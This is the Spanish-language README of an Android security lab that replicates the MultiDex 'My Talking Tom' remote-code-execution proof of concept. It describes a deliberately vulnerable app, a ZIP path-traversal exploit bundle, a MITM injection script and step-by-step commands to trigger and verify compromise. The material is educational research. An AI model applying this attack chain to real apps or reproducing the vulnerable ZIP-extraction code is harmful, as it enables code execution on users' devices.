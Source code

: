 # RCE Lab - My Talking Tom PoC Replication

## Overview

Este laboratorio replica **exactamente** la vulnerabilidad del PoC "My Talking Tom" que utiliza:

- **Path traversal ZIP** para colocar archivos maliciosos automáticamente
- **MultiDex 1.0.1** que carga automáticamente `classes2.zip` desde `code_cache/secondary-dexes/`
- **Static initializer** en payload DEX para ejecución automática al cargar la clase

## Arquitectura del Ataque

```text
           ┌─────────┐                                     ┌───────────────┐
           │  MITM   │─── inyecta 2 entradas con traversals ─▶ /data/data/ │
  legit    │ script  │                                         com.app.lab. │
Creative ─▶│ (zip)   │── busybox  → …/files/busybox            rce/         │
  .zip     └─────────┘── classes2.zip → …/code_cache/…         …            │
                                                               └─────────────┘
                         ▼                                        ▲
                    AdUpdateService                 MultiDex 1.x carga
                  descomprime el ZIP                <pkg>-classes2.zip
                                                   (contiene classes.dex)
```

## Comandos Rápidos

```bash
# 1. Construir exploit bundle con path traversal
./build_payload.sh

# 2. Servir exploit bundle
cd payload/build && python3 -m http.server 8000 &

# 3. Setup dispositivo Android (emulador)
adb reverse tcp:8000 tcp:8000

# 4. Instalar aplicación vulnerable
./gradlew installDebug

# 5. Iniciar aplicación (descarga automática del exploit)
adb shell am start -n com.app.lab.rce/.MainActivity

# 6. Reiniciar para activar MultiDex auto-load
adb shell am force-stop com.app.lab.rce
adb shell am start -n com.app.lab.rce/.MainActivity

# 7. Verificar compromiso
adb shell cat /data/data/com.app.lab.rce/files/pwned.txt
```

## Componentes Técnicos

### 1. Exploit Bundle (`exploit_bundle.zip`)

Contiene dos entradas con path traversal:

- `../../../../data/data/com.app.lab.rce/files/busybox` (ejecutable)
- `../../../../data/data/com.app.lab.rce/code_cache/secondary-dexes/com.app.lab.rce-classes2.zip`

### 2. Aplicación Vulnerable

- **MultiDex 1.0.1**: Carga automáticamente ZIPs desde `secondary-dexes/`
- **AdUpdateService**: Descarga y extrae ZIPs cada 15 segundos
- **RCEApplication**: Custom Application con `MultiDex.install()`

### 3. Payload Malicioso

- **Solo 15 líneas**: Payload extremadamente simple y directo
- **Static initializer**: Se ejecuta automáticamente al cargar la clase
- **Evidencia simple**: Crea `/data/data/com.app.lab.rce/files/pwned.txt` con fecha y UID
- **Sin dependencias**: No requiere Context ni librerías Android

### 4. MITM Script (Opcional)

- **Sustitución directa**: Reemplaza cualquier ZIP descargado por `exploit_bundle.zip`
- **Filtro inteligente**: Solo intercepta archivos `.zip` con magic bytes `PK`
- **Simple y efectivo**: 40 líneas vs 135 líneas anterior

## Archivos Clave

```
├── build_payload.sh              # Construye exploit_bundle.zip
├── app/src/main/java/com/app/lab/rce/
│   ├── RCEApplication.kt          # Custom Application (MultiDex)
│   ├── AdUpdateService.kt         # Descarga y extrae ZIPs
│   └── MainActivity.kt            # Inicia servicio automático
├── payload/src/pwn/Shell.java     # Payload con static initializer
└── mitmproxy/inject_payload.py    # MITM para inyección (opcional)
```

## Indicadores de Compromiso

### Logs Esperados
```
# MultiDex carga automáticamente el payload
# No hay logs específicos - el payload es silencioso
```

### Archivos Creados

- `/data/data/com.app.lab.rce/files/pwned.txt` - Evidencia principal del compromiso
- `/data/data/com.app.lab.rce/files/busybox` (ejecutable)
- `/data/data/com.app.lab.rce/code_cache/secondary-dexes/com.app.lab.rce-classes2.zip`

## Verificar Compromiso

```bash
# Verificar archivo de evidencia
adb shell cat /data/data/com.app.lab.rce/files/pwned.txt
# Ejemplo output: PWNED Mon Jun 23 21:16:45 GMT 2025 UID=uid=10XXX(com.app.lab.rce) gid=10XXX(com.app.lab.rce)
```

## Consideraciones de Seguridad

⚠️ **Solo para uso educativo y de investigación**

- Usar únicamente en entornos controlados
- No ejecutar en dispositivos de producción
- Respetar las leyes locales de ciberseguridad

## Referencias

- [NowSecure - MultiDex RCE Vulnerability](https://www.nowsecure.com/blog/2017/06/15/a-pattern-for-remote-code-execution-using-arbitrary-file-writes-and-multidex-applications/)
- [My Talking Tom PoC](https://github.com/nowsecure/android-rce-multidex-and-zip-files)
- [Android MultiDex Documentation](https://developer.android.com/studio/build/multidex)

